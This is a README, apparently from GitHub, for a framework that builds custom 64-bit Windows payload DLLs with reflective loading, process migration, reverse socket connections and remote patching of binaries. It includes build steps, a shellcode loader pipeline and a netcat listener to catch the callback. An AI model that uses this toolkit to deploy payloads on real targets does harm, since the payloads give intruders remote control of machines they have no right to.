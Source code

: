 Framework
=========

A framework for writing custom 64-bit Win32 payloads
in the form of a dll.

The framework provides some userspace tools for
the payloads:

 * Reflective loading
 * Process migration
 * Reverse socket conections
 * Patching DLLs and EXEs on remote host

Building
--------

You will need:

 * Cygwin (64 bit) -- make, mingw64-x86_64-gcc-g++
 * Ruby (Cygwin's or native Window's version, doesn't matter)
 * Git (well duh)
 * Netcat
 * Nasm
 
Fire up cygwin

    git clone https://github.com/floomby/framework.git
    cd framework

Edit config.h to suit your need. The comments explain things.

    make dll

This builds framework.dll. It is up to you to get
it running on a target system. There is shellcode
in the shellcode directory to help you get started.

Assuming RPORT => 1234 and RHOST => localhost you
can do the following

    make tools
    cd shellcode/loader
    make
    ./loader | ruby >sc && cat ../../framework.dll >>sc
    (../../tools/sc-test/sc-test sc &) && nc -k -l 1234
    
Usage
-----

COMING SOON

Bugs
----

Right now I am aware of two bugs, both are minor

 * memory is not freeded properly on migration out of process
 * sc-test stays running for a couple minutes when launched as
   described in the instructions, this is due to it waiting
   for all the windsock threads to terminate before exiting
